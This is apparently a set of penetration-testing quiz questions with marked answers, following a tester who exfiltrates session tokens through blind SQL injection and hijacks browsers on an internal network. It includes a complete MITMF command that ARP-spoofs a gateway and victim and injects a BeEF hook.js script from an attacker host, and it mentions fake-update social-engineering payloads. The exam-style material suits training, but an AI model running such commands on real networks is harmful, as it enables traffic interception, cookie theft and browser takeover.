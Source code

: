  TCP and UDP protocol hijacking does not make any sense here – after ARP spoofing all the traffic will be hijacked.

--------------------------------

During a penetration test, 
      
      Marin exploited a blind SQLi 
            
            and exfiltrated session tokens
     
     from the database. 
     
     What can he do with this data?




      Marin can do XSS (Cross-Site Scripting)

      Marin can do Session hijacking : TRUE

      Marin can do SQLi (SQL injection)

      Marin can do CSRF (Cross-Site Request Forgery)

----------------------------------------------------------------------------


During the penetration test, 
      
      Marin is using the "MITMF tool" to inject the arbitrary data 
            
               into an HTTP communication channel between the clients on the internal network and web servers 
            
         in order to steal the cookies and, 
         if possible, establish a remote shell on the victim’s computer.

      He successfully injects XSS JavaScript into the session, 
      and with BeeF he has a control over the user browser, 

Command used with the MITMF tool:

mitmf -i eth0 --spoof --arp --gateway 192.168.132.2 --targets 192.168.132.196 --inject
--js-payload  "</script><script src="http://192.168.132.120:3000/hook.js></script>"



There is no 0-day vulnerability against the client browser (at least not the one Marin knows about). 
Is it possible to gain the remote shell access to the remote machine without browser/javascript/flash etc. vulnerability?


                                   Yes. Marin can try to use social engineering attacks (like “Fake Flash Update”), and try to fool the user into clicking on the malicious payload : TRUE



-----------------------------
